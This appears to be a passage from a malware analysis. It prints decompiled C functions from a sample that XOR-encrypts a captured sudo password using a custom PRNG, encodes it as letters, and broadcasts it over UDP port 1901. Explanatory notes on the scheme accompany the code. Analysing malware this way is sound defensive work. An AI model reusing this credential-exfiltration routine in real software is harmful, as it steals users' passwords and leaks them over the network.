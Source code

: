 ```c
unsigned __int64 __fastcall encrypt_and_send_182B(const char *sudo_password)
{
  [...]
  PRNG_state_value_1 = 0x43525744;
  PRNG_state_value_2 = 0x159A55A0;
  PRNG_state_value_3 = 0x1F123BB5;
  PRNG_state_value_4 = 0x74CBB1;
  for ( i = 0LL; i <= 0xF; ++i )
    alpha_for_nibble_values[i] = i + 'a';
  for ( j = 0LL; ; ++j )
  {
    len_sudo_password = strlen(sudo_password);
    if ( j >= len_sudo_password )
      break;
    random = PRNG_with_state_1651(&PRNG_state_value_1, &PRNG_state_value_2, &PRNG_state_value_3, &PRNG_state_value_4);
    XOR_key = BYTE2(random) ^ HIBYTE(random);
    XOR_key ^= BYTE1(random);
    XOR_key ^= (unsigned __int8)random;
    sendBuffer[2 * j] = alpha_for_nibble_values[((XOR_key ^ sudo_password[j]) >> 4) & 0xF];
    sendBuffer[2 * j + 1] = alpha_for_nibble_values[((unsigned __int8)XOR_key ^ sudo_password[j]) & 0xF];
  }
  send_data_1714(sendBuffer);
}
```

There are major takeaways from this function

- Each password character byte value is XOR'd with a key byte derived from output of a custom PRNG
  - The key byte is calculated as a chained XOR operation on each of the lower four bytes of the PRNG value `XOR_key =  (random & 0xff000000) >> 24 ^ (random & 0xff0000) >> 16 ^ (random & 0xff00) >> 8 ^ (random & 0xff)`.
- Each encrypted character is split into its nibble value (half-bytes) and each nibble is encoded in a lower case character a..p for the values 0..15

The password is then sent as the payload of a broadcast IPv4 packet on the network via function **send_data_1714()**.

```c
__int64 __fastcall send_data_1714(const char *sendBuffer)
{
  optval = 1;
  retval = 0;
  sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_IP);
  if ( sockfd == -1 )
    return 0xFFFFFFFFLL;
  if ( setsockopt(sockfd, SOL_SOCKET, SO_BROADCAST, &optval, 4u) )
  {
    retval = -1;
  }
  else
  {
    memset(&s, 0, sizeof(s));
    s.sin_family = AF_INET;
    s.sin_port = htons(1901u);
    s.sin_addr.s_addr = htonl(INADDR_BROADCAST);
    lenSendBuffer = strlen(sendBuffer);
    if ( sendto(sockfd, sendBuffer, lenSendBuffer, 0, (const struct sockaddr *)&s, 0x10u) == -1 )
      retval = -1;
  }
  close(sockfd);
  return retval;
}
```
